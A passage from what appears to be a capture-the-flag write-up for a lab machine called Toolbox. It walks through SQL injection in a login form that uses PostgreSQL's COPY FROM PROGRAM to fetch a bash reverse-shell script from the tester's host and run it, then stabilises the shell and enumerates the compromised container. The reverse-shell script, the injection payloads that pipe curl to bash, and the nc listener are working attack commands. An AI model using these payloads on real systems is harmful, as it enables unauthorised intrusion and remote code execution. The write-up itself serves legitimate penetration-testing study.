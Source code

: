 > **`index.html`**:

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'
```

```bash
nvim index.html
python3 -m http.server 80

nc -nlvp 443
```

```sql
username=admin';COPY cmd_exec FROM PROGRAM 'curl 10.10.14.15'-- -&password=admin
username=admin';COPY cmd_exec FROM PROGRAM 'curl 10.10.14.29|bash'-- -&password=admin
```

> **Victime Machine**:

```bash
whoami
hostname
hostname -I
```

<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_21.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_22.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_23.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_24.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now that I am on the victim machine, which previously with `hostname` which is a container, I perform a **console treatment** and set out to enumerate a bit to see possible attack vectors to perform a **User Pivoting** or **Privilege Escalation**. I can't find much in the Docker configuration files or in your environment variable. I belong to the **`ssl-cert`** group, but I don't know if it will do me any good. If I browse a bit through the directories and list the contents, I find the first flag and have the ability to view it. If I scan the network interfaces I see the one that is possibly the interface of the victim host machine, **172.17.0.1**.

```bash
script /dev/null -c bash        [Ctrl+z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128

hostname -I         # --> 172.17.0.2
id
groups

find \-perm -4000 2> /dev/null

cat .dockerenv
env

```